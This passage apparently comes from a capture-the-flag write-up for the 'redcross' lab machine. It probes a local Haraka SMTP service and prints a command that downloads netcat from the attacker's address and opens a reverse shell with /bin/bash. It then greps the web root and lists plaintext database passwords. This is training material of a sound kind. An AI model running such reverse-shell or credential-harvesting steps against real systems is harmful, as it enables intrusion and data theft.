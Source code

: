 ```
|  5 | guest    | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi | non@available                | 1000 |
+----+----------+--------------------------------------------------------------+------------------------------+------+
```


```
penelope -> alexss

```


Finally we got into the same point we were previously hahaha
Let's dig into the 1025 port then.

It could be a service running on 25 port but shifted due to the lack of permisions.

We try to connect from the reverse shell we have and the server does respond:
```
 telnet 127.0.0.1 1025
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
220 redcross ESMTP Haraka 2.8.8 ready
```


As we have found, haraka is completely vulnerable. After several tries of printing the id or the whoami output to the filesystem itself, it looks like we can not access it, so let's try to download a nc and execute a reverse shell in the command: 
```
cd /tmp; rm nc; wget http://10.10.16.6:81/nc ;chmod 777 ./nc; ./nc 10.10.16.6 1415 -e /bin/bash
```

Once we are in, we start searching for sensitive data:
```
penelope@redcross:/var/www/html$ grep -Irin . -e "pass"
./admin/init.php:5:$dbpass='LOSPxnme4f5pH5wp';
./admin/9a7d3e2c3ffb452b2e40784f77723938/573ba8e9bfd0abd3d69d8395db582a9e.php:6:$mysqli = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
./admin/pages/cpanel.php:4:     $mysqli = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
./admin/pages/login.php:7:echo "<tr><td align='right'>Password</td><td><input type='password' name='pass'></input></td></tr>";
./admin/pages/firewall.php:7:   $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
./admin/pages/users.php:7:      $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
./admin/pages/users.php:8:      $result = pg_prepare($dbconn, "q1", "SELECT * FROM passwd_table WHERE gid = 1001");
./admin/pages/actions.php:21:   if(!isset($_POST['pass']) and !isset($_POST['user'])){
./admin/pages/actions.php:28:   $pass=$_POST['pass'];
./admin/pages/actions.php:31:   $mysqli = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
./admin/pages/actions.php:32:   $sql=$mysqli->prepare("SELECT id, password, mail, role FROM users WHERE username = ?");
./admin/pages/actions.php:44:   if(password_verify($pass,$hash) and $role==0){
./admin/pages/actions.php:66:   } else if(password_verify($pass,$hash)){
./admin/pages/actions.php:95:   $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
./admin/pages/actions.php:109:  $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
./admin/pages/actions.php:116:  $passw=generateRandomString();
./admin/pages/actions.php:117:  $phash=crypt($passw);
./admin/pages/actions.php:118:  $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
./admin/pages/actions.php:119:  $result = pg_prepare($dbconn, "q1", "insert into passwd_table (username, passwd, gid, homedir) values ($1, $2, 1001, '/var/jail/home')");
```